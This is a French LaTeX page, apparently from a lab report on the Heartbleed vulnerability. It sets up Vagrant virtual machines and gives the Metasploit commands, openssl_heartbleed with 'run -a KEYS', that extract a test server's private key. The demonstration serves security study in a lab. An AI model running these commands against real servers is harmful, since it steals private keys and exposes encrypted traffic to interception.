 \documentclass[a4paper,oneside,1pt]{article}
\begin{document}
\subsection{Expérimentation}

Nous utilisons vagrant pour lancer notre machine virtuelle. La commande \textit{vagrant up} permet de créer la machine virtuelle avec virtualbox. Tous les outils necessaires à l'expérimentation sont installé sur la machine virtuelle. Cette machine virtuelle joue le role du serveur. Une autre machine, cette fois cliente, est installé avec Kali Linux afin d'exploiter la faille. 

Pour lancer les machines, dirigez vous dans le dossier "experimentation" puis lancez la commande \texttt{vagrant up}. Cette commande va installer les machines.


Une fois installé, lancer la commande "vagrant ssh client" pour connecter à la machine cliente (Kali).
 
Maintenant lancez les commandes :

\begin{verbatim}
sudo apt-get update
sudo apt-get upgrade #l'upgrade est très long, faites entrer a chaque interaction

sudo msfupdate
sudo msfconsole
\end{verbatim}

puis dans la console:
\begin{verbatim}
use auxiliary/scanner/ssl/openssl\_heartbleed
set RHOSTS <votreip> 
set RPORT 13443
set verbose true
run -a KEYS
\end{verbatim}

On voit que cet exploit nous permet de récupérer automatiquement et particulièrement facilement la clé privée du serveur.



\appendix

\section{Glossaire}
\end{document}
